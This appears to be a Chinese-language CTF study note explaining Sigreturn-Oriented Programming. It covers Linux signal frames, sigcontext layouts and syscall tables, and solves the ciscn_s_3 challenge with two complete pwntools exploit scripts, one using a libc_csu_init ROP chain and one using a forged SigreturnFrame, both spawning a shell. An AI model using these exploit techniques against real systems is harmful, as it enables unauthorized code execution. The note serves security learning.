






最近在刷题时,遇到很多关于没有或很少调用libc函数但使用了系统调用的题目,这些题目常常可以利用SROP的方法来解决，因此写个笔记来总结归纳下SROP利用原理与过程.
SROP 特点与原理 SROP 特点 依赖系统调用(syscal)强但对libc.so的依赖极少。
要有空间存放Signal Frame的信息.
与其他rop相比，对的依赖gadgets 较少。
signal 机制 SROP手段十分依赖signal 机制.而signal 机制是类 unix 系统中进程之间相互传递信息的一种方法，也是我们平常所说的软中断或软信号中断。
1.内核向某个进程发送 signal 机制，该进程会被暂时挂起，进入内核态。内核会为该进程保存相应的上下文，主要是将所有寄存器以及压入 signal 信息和指向 sigreturn 的系统调用地址压入栈中。 我们称 ucontext 以及 siginfo 这一段为 Signal Frame(此时栈的结构如下图所示)。然后处理signal handler 的事务.
处理完signal handler 的事务.程序处理完会return回__restore_rt，这个功能里面就是mov rax, 0xf; syscall，去呼叫sys_rt_sigreturnsyscall，把一部分恢复Signal Frame通过解析 Signal Frame的信息，将压入的进程还原成中断前的状态。

同时,对于signal Frame来说，不同会因为架构的不同而因此有所区别.
signal Frame sigcontext 在32位lunix 下sigcontext 的结构为:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 struct sigcontext { unsigned short gs, __gsh;unsigned short fs, __fsh;unsigned short es, __esh;unsigned short ds, __dsh;unsigned long edi;unsigned long esi;unsigned long ebp;unsigned long esp;unsigned long ebx;unsigned long edx;unsigned long ecx;unsigned long eax;unsigned long trapno;unsigned long err;unsigned long eip;unsigned short cs, __csh;unsigned long eflags;unsigned long esp_at_signal;unsigned short ss, __ssh;struct _fpstate * fpstate ;unsigned long oldmask;unsigned long cr2;};
在64位lunix 下sigcontext 的结构为:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 struct _fpstate { __uint16_t cwd; __uint16_t swd; __uint16_t ftw; __uint16_t fop; __uint64_t rip; __uint64_t rdp; __uint32_t mxcsr; __uint32_t mxcr_mask; struct _fpxreg _st [8]; struct _xmmreg _xmm [16]; __uint32_t padding[24 ]; }; struct sigcontext { __uint64_t r8; __uint64_t r9; __uint64_t r10; __uint64_t r11; __uint64_t r12; __uint64_t r13; __uint64_t r14; __uint64_t r15; __uint64_t rdi; __uint64_t rsi; __uint64_t rbp; __uint64_t rbx; __uint64_t rdx; __uint64_t rax; __uint64_t rcx; __uint64_t rsp; __uint64_t rip; __uint64_t eflags; unsigned short cs; unsigned short gs; unsigned short fs; unsigned short __pad0; __uint64_t err; __uint64_t trapno; __uint64_t oldmask; __uint64_t cr2; __extension__ union { struct _fpstate * fpstate ; __uint64_t __fpstate_word; }; __uint64_t __reserved1 [8 ]; };
用图片来形容X64的sigcontext 的结构应该如下表示:

SROP 原理 在程序某一个地方伪造一个signal Frame,再让程序sys_rt_sigreturn我们构造的fake signal Frame.让进程恢复到我们构造的恶意状态.

常用系统调用号 i386
NR
syscall name
%eax
arg0 (%ebx)
arg1 (%ecx)
arg2 (%edx)
3
read
0x03
unsigned int fd
char *buf
size_t count
4
write
0x04
unsigned int fd
const char *buf
size_t count
5
open
0x05
const char *filename
int flags
umode_t mode
11
execve
0x0b
const char *filename
char *const *argv
char *const *envp
173
rt_sigreturn
0xad
?
?
?
1 2 3 4 5 //int execve(const char *pathname, char *const argv[],char *const envp[]); 173 i386 rt_sigreturn sys_rt_sigreturn stub32_rt_sigreturn // mov eax 0xad //syscall //retn Signal Frame addr
amd64
NR
syscall name
%rax
arg0 (%rdi)
arg1 (%rsi)
arg2 (%rdx)
0
read
0x00
unsigned int fd
char *buf
size_t count
1
write
0x01
unsigned int fd
const char *buf
2
open
0x02
const char *filename
int flags
umode_t mode
3
rt_sigreturn
0x0f
?
?
?
59
execve
0x3b
const char *filename
char *const *argv
char *const *envp
例题ciscn_s_3 
这个题目很奇怪,我ida无法F5,然后自己手撕汇编.

程序只调用的系统调用而没有调用libc函数.在程序运行的流程中调用系统调用来读入数据到buf,但buf数据只有0x10大小，所以存在栈溢出。然后，接下来调用系统调用来显示数据，但同样存在输出数据范围大于buf于是存在信息泄露。
解法1:execve与libc_csu_init 用利用题目中mov rax, 3Bh;retgatget来修改rax为0x3b，同时利用libc_csu_init来修改rdx为0，用pop rdi;ret来修改rdi 的值指向/bin/sh。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 from pwn import *e=ELF('./ciscn_s_3' ) context.arch = e.arch p=process('./ciscn_s_3' ) pay='/bin/sh\x00' +'a' *(0x10 -len('/bin/sh\x00' ))+p64(0x0000000004004F1 ) p.sendline(pay) add=p.recvuntil('\x7f' )[-6 :].ljust(8 ,'\x00' ) print(hex(u64(add)-0x110 )) stack=u64(add)-0x110 log.info('stack:' +hex(stack)) rax=0x0000000004004E2 libc_csu_init_gat1=0x00000000040059A libc_csu_init_gat2=0x000000000400580 rdi_ret=0x00000000004005a3 syscall_ret=0x0000000000400517 pay='/bin/sh\x00' +'a' *(0x10 -len('/bin/sh\x00' ))+p64(rax)+p64(libc_csu_init_gat1)+p64(0 )+p64(1 )+p64(stack+0x10 )+p64(0 )*3 +p64(libc_csu_init_gat2)+'a' *0x38 +p64(rdi_ret)+p64(stack)+p64(syscall_ret) p.sendline(pay) p.interactive()
解法2：srop 同样我们可以利用srop，在栈中部署一个伪造signal Frame sigcontext，然后用rt_sigreturn来恶意恢复重而get shell。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 from pwn import *e=ELF('./ciscn_s_3' ) context.arch = e.arch p=process('./ciscn_s_3' ) vuln=0x0000000004004F1 pay='/bin/sh\x00' +'a' *(0x10 -len('/bin/sh\x00' ))+p64(0x0000000004004F1 ) p.sendline(pay) add=p.recvuntil('\x7f' )[-6 :].ljust(8 ,'\x00' ) print(hex(u64(add)-0x110 )) stack=u64(add)-0x110 log.info('stack:' +hex(stack)) syscall_ret=0x0000000000400517 rax=0x0000000004004DA frame = SigreturnFrame() frame.rax = constants.SYS_execve frame.rdi = stack frame.rsi = 0 frame.rdx = 0 frame.rip = syscall_ret pay='/bin/sh\x00' +'a' *(0x10 -len('/bin/sh\x00' ))+p64(rax)+p64(syscall_ret)+str(frame) p.sendline(pay) p.interactive()
参考文献 系统调用号
https://ctf-wiki.org/pwn/linux/stackoverflow/advanced-rop/srop/